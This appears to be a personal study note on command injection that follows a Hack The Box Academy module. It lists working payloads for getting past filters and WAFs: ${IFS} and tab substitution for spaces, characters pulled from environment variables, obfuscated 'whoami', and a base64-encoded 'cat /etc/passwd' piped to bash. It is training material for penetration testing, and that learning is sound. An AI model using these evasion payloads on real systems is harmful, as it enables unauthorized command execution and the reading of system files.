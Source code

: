 # Command Injection Overview
-----
Command Injections stand out as one of the most critical vulnerabilities in the realm of cybersecurity. This type of vulnerability provides a gateway for executing system commands directly on the hosting server's back-end, potentially compromising the entire network. When a web application employs user-controlled input to execute system commands, there exists an opportunity to inject a malicious payload, diverting the intended command and executing unauthorized actions.

#### Command Injection Detection
- Whenever there's an input field, we can potentially have a command injection vulnerability.

- We can try variou commands with different operators (`;`, `\n`,`&&`, `|`, etc.)

#### Injecting Commands
- Assume we have an application that ping an IP address, we can add another command after the IP

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_injection.jpg)

- As we can see the application refuses our inout. However, it looks like the input validation is done on the front-end (i.e in the 2 commands execute successfully). 

#### Bypass Front-End Validation
- To bypass front-end validations, we can use BurpSuite to intecept the request. If there's only front-end validation, the Reponse will print the output of the commands

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_repeater_2.jpg)

## Filters Evasion

### Identify filters
- Filter/WAF Detection: when trying different operators (&, &&, |, ;), if we get errors from the web page, it means there's a filter in place to protect the application. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- When it comes to filtering, the application can blacklist operators or blacklist the whole command, or both. Hence, we need to attempt each scenario to figure out the vulnerability.

#### Blacklisted Characters
- If a commands contains a blocked special character, the application might deny the request.

- To find out which character is allowed in the application, use BurpSuite to try each of the operators, which can be found [here](operators.txt) or their [url encoded verion](url-encoded-operators.txt).

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_2.jpg)

#### Bypassing Space Filters
- If the application does not allow space character, we can try bypassing it by using tab instead.

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_3.jpg)

- As we see from the above image that the application accepts the request, meaning we succeed in bypassing space filter by using a tab.

- `${IFS}` is Linux Environment Varible whose default value is a space and a tab. Hence, the payload should look like `127.0.0.1%0a${IFS}`.

- Brace Expansion is another method we can use to bypass space filter, which automatically adds spaces between arguments wrapped between braces `{ls,-la}`. Hence, the payload will look like `127.0.0.1%0a{ls,-la}`.

#### Bypassing Other Blacklisted Characters
- Concept: we will obtain the special character from environment varible values (or $PATH).

- In Linux:
```bash
echo ${PATH} will output `/usr/local/bin:/usr/bin:/bin:/usr/games`. To get the "/" character, we run `echo ${PATH:0:1}`

- Similarly, to get ";" character, we use `${LS_COLORS:10:1}`

- So the final payload looks like: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`
```

- In Windows:

```shell
# Command Prompt
%HOMEPATH:~6,-11%	# output \


# PowerShell
$env:HOMEPATh[0]	# output \
```

#### Bypassing blacklisted commands
- In case an application blacklists certain commands, we need to find ways to work around.

- A few techniques we can use is using the commands with ' or ", which can be used on both Linux and Windows

```bash
127.0.0.1%0aw'h'o'a'm'i)
```

- In Linux, there are a few characters that can be inserted into the middle of the command

```bash
who$@ami
w\h\o\a\m\i
```

- Similarly, in Windows, we can use `^` character.

```bash
who^ami
```

#### Advanced Command Obfuscation
- In Windows, we can switching the cases of the commands (WhoAmI), which Windows will ignore and execute it.

- In Linux, since it is case-sensitive, we need to convert the command to lowercases before executing

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhoAmI")

Note: The above command uses space. If the application filters spaces, we need to replace it with tabs (%09)
```

- Reverse commands

```bash
# LINUX
echo "whoami" | rev
$(rev<<<"imaohw")

# WINDOWS
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```

- Encoding commands: this is extremely helpful when it comes to using commands with filtered characters.

```bash
echo -n "cat /etc/passwd | grep 33" | base64	# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# On the application
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

- For Windows, we can do similar technique

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


